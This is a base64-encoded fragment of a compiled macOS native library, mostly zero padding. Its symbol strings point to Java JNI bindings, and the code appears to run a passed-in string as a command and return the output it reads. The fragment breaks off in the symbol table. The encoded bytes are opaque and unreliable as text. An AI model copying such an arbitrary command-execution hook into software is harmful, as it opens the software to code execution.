AAAAAAAbAAAAGAAAAKzzaHFzWzG8mwX8ey4abmUyAAAAIAAAAAEAAAAADwoAAA8KAAEAAAADAAAAAAAIAioAAAAQAAAAAAAAAAAAAAAMAAAAMAAAABgAAAACAAAAAAcgAwAAAQAvdXNyL2xpYi9saWJjKysuMS5keWxpYgAMAAAAOAAAABgAAAACAAAAAAABBQAAAQAvdXNyL2xpYi9saWJTeXN0ZW0uQi5keWxpYgAAAAAAACYAAAAQAAAAcDIAACAAAAApAAAAEAAAAJAyAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABVSInlSIHsMAEAAEiLBTYHAABIiwBIiUX4SIm9YP///0iJtVj///9IiZVQ////SIO9UP///wAPhEYBAABIi71g////SIu1UP///0iNlU/////opAUAAEiJhUD///9Ii71A////SI01aQYAAOjABQAASImFOP///0iDvTj///8AD4T4AAAASI29IP///+ivAQAASIuVOP///0iNvXD///++gAAAAOh1BQAASImFCP///+kAAAAASIuFCP///0iD+AAPhEQAAABIjb0g////SI21cP///+iHAQAASImFAP///+kAAAAA6af///+J0UiJhRj///+JjRT///9Ijb0g////6AEFAADpbgAAAEiLvTj////oFAUAAImF/P7//+kAAAAASIu9YP///0iNhSD///9Iib3w/v//SInH6JIBAABIi73w/v//SInG6KcEAABIiYXo/v//6QAAAABIi4Xo/v//SImFaP///0iNvSD////okwQAAOkVAAAA6UUAAADpAAAAAEjHhWj///8AAAAASIuFaP///0iLDa0FAABIiwlIi1X4SDnRSImF4P7//w+FLQAAAEiLheD+//9IgcQwAQAAXcNIi70Y////6CAEAAAPC0iJx0iJldj+///oEQEAAOg0BAAADwtmLg8fhAAAAAAAVUiJ5UiD7DBIiX34SIl18EiJVehIi1X4SIsySIu2SAUAAEiLffBIi0XoSIl94EiJ10iLVeBIiXXYSInWSInCSItF2P/QSIPEMF3DDx9EAABVSInlSIPsEEiJffhIi3346KsAAABIg8QQXcMPH0QAAFVIieVIg+wQSIl9+EiJdfBIi334SIt18OiDAwAASIPEEF3DZi4PH4QAAAAAAA8fAFVIieVIg+wgSIl9+EiJdfBIi3X4SIs+SIu/OAUAAEiLRfBIiX3oSIn3SInGSItF6P/QSIPEIF3DDx+EAAAAAABVSInlSIPsEEiJffhIi3346IsBAABIg8QQXcMPH0QAAFDoHAMAAEiJBCToDQMAAJBVSInlSIPsEEiJffhIi334SIl98OgXAAAASIt98OguAAAASIPEEF3DDx+EAAAAAABVSInlSIPsEEiJffhIi3346FsAAABIg8QQXcMPH0QAAFVIieVIg+wgSIl9+EiLffjo2wAAAEiJRfDHRewAAAAAg33sAw+DHwAAAEiLRfCLTeyJykjHBNAAAAAAi0Xsg8ABiUXs6df///9Ig8QgXcOQVUiJ5UiD7BBIiX34SIt9+EiJ+EiJffBIicfoIQAAAEiLRfBIicfoRQAAAEiDxBBdw2YuDx+EAAAAAAAPH0QAAFVIieVIg+wQMfZIiX34SIt9+LoYAAAA6CgCAABIg8QQXcNmLg8fhAAAAAAADx9AAFVIieVIg+wQSIl9+EiLffjoCwAAAEiDxBBdww8fRAAAVUiJ5UiJffhdw2YPH0QAAFVIieVIg+wQSIl9+EiLffjoCwAAAEiDxBBdww8fRAAAVUiJ5UiJffhIi0X4XcNmkFVIieVIg+wQSIl9+EiLffjoKwAAAEiJx+gTAAAASIPEEF3DZi4PH4QAAAAAAA8fAFVIieVIiX34SItF+F3DZpBVSInlSIPsIEiJffhIi334SIl98Og3AAAAqAEPhQUAAADpEgAAAEiLffDoYQAAAEiJRejpDQAAAEiLffDobwAAAEiJRehIi0XoSIPEIF3DkFVIieVIg+wQSIl9+EiLffjoewAAAA+2CInISIPgAUiD+AAPlcKA4gEPtsJIg8QQXcNmLg8fhAAAAAAADx9EAABVSInlSIPsEEiJffhIi3346DsAAABIi0AQSIPEEF3DkFVIieVIg+wQSIl9+EiLffjoGwAAAEiDwAFIicfoPwAAAEiDxBBdw2YPH4QAAAAAAFVIieVIg+wQSIl9+EiLffjoCwAAAEiDxBBdww8fRAAAVUiJ5UiJffhIi0X4XcNmkFVIieVIg+wQSIl9+EiLffjoCwAAAEiDxBBdww8fRAAAVUiJ5UiJffhIi0X4XcP/JUwRAAD/JU4RAAD/JVARAAD/JVIRAAD/JVQRAAD/JVYRAAD/JVgRAAD/JVoRAAD/JVwRAAD/JV4RAAD/JWARAAD/JWIRAAAAAEyNHWERAABBU/8lCQEAAJBoFgAAAOnm////aGgAAADp3P///2izAAAA6dL///9oygAAAOnI////aAAAAADpvv///2jjAAAA6bT///9o+wAAAOmq////aAgBAADpoP///2gWAQAA6Zb///9oJAEAAOmM/////5slAR0AmAEAAJgBQeoBAPkBDNADAZECPOoBAM0CmQEAAAEAAAAAAHIAAAABAAAAHAAAAAEAAAAgAAAAAQAAACQAAAACAAAAAAAAAQAQAADACAAARAAAADwAAACvDgAAAAAAAEQAAADACAAAbA8AAAMAAAAMAAQAHAACAAAAAALwAQAA8AIAAQADAAAAAAAAAAAAUQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAwDwAAAAAAAFALAAAAAAAAsAoAAAAAAAAIDwAAAAAAABIPAAAAAAAAHA8AAAAAAAAmDwAAAAAAADoPAAAAAAAARA8AAAAAAABODwAAAAAAAFgPAAAAAAAAYg8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAESIAXAAAAAARQF9fX2d4eF9wZXJzb25hbGl0eV92MABRcQCQEkBfX19zdGFja19jaGtfZ3VhcmQAkEBkeWxkX3N0dWJfYmluZGVyAJAAAABAX19aTjdKTklFbnZfMTJOZXdTdHJpbmdVVEZFUEtjAFFyCJBAX19aTjdKTklFbnZfMTdHZXRTdHJpbmdVVEZDaGFyc0VQOF9qc3RyaW5nUGgAkAAAAAAAcgASQF9fVW53aW5kX1Jlc3VtZQCQAHIYEUBfX1pOU3QzX18xMTJiYXNpY19zdHJpbmdJY05TXzExY2hhcl90cmFpdHNJY0VFTlNfOWFsbG9jYXRvckljRUVFNmFwcGVuZEVQS2MAkAByIBFAX19aTlN0M19fMTEyYmFzaWNfc3RyaW5nSWNOU18xMWNoYXJfdHJhaXRzSWNFRU5TXzlhbGxvY2F0b3JJY0VFRUQxRXYAkAByKBFAX19aU3Q5dGVybWluYXRldgCQAHIwEUBfX19jeGFfYmVnaW5fY2F0Y2gAkAByOBJAX19fc3RhY2tfY2hrX2ZhaWwAkAByQBJAX2Zn